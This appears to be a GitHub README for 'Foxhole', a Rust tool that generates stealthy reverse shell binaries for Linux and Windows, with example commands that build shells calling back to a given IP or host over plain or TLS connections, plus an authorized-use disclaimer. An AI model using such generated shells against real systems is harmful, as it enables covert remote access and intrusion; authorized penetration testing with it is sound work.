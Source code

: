 # Foxhole

A stealthy, cross-platform reverse shell generator written in Rust.

## Features

- Cross-platform support (Linux and Windows)
- TLS encryption support
- Customizable shell path
- Minimal and fast binaries
- Release mode compilation for smaller size

## Usage

```bash
foxhole --ip <target_ip> --port <target_port> --os <linux|windows> [--shell <shell_path>] [--tls] --output <output_path>
```

### Examples

Generate a Linux reverse shell:
```bash
foxhole --ip 192.168.1.100 --port 4444 --os linux --output shell
```

Generate a Windows reverse shell with TLS:
```bash
foxhole --ip example.com --port 443 --os windows --tls --output shell.exe
```

Generate a custom shell path:
```bash
foxhole --ip 192.168.1.100 --port 4444 --os linux --shell /bin/bash --output shell
```

## Requirements

- Rust toolchain (latest stable)
- `rustc` compiler
- For cross-compilation: `cross` (optional)

## Security Note

This tool is for educational and authorized testing purposes only. Unauthorized use on systems you don't own or have permission to test is illegal. 